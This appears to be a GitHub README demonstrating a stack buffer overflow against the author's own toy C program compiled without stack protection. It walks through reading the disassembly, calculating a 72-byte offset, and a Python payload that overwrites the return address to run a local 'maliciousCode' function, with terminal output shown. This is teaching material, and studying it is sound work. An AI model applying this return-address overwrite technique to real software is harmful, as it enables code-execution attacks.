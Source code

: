 # StackBufferOverflow
A simple example for Stack Buffer Overflow Demonstration . 

Environment: Ubuntu 16.04 VM on 64 bit Mac OS with gcc and python.  

Steps to see the exploit:   

**1. Compile**  
  gcc main.c -o stack -fno-stack-protector   
  -fno-stack-protector option disables the stack protection so that stack smashing will be allowed  
  
**2. Read disassembly code** (This will vary from system to system)  
  Run 'objdump -d stack' command to see disassembly code   
  
  ![alt text](https://github.com/ashokyannam/StackBufferOverflow/blob/master/disassembly.png)

The address of maliciousCode function is 00000000004005b6    

The address of inputDataProcessing function is 00000000004005c7      

0x40 or 64 bytes are reserved for dataBuffer based on below instruction    
4005d9:	48 8d 45 c0          	lea    -0x40(%rbp),%rax   

**3. Crafting the attack pay load**

Value of dataBuffer size allocated is 64 bytes which is followed by %rbp, the base pointer of main function. So, given this is a 64 bit machine, %rbp will be stored in next 8 bytes and then return address in next eight bytes. So, the pay load size would be 72 bytes (64 + 8) and then the return address will be overwritten with maliciousCode’s address in little-endian fashion. The input stream to our vulnerable code looks like as below.

python -c 'print "a"*72 + "\xb6\x05\x40\x00\x00\x00\x00\x00"'   

**4. Output with incorrect pay load size**   

ml@ml-VirtualBox:~/Desktop/StackOverflow$ python -c 'print "a"*64 + "\xb6\x05\x40\x00\x00\x00\x00\x00"' | ./stack    
Get Input Data Stream:    
Input Data Stream: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa�@  
Segmentation fault (core dumped)   

**5. Output with correct pay load size**    

ml@ml-VirtualBox:~/Desktop/StackOverflow$ python -c 'print "a"*72 + "\xb6\x05\x40\x00\x00\x00\x00\x00"' | ./stack  
Get Input Data Stream:      
Input Data Stream: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa�@    
**Successfully executed malicious code!**     
Segmentation fault (core dumped)      


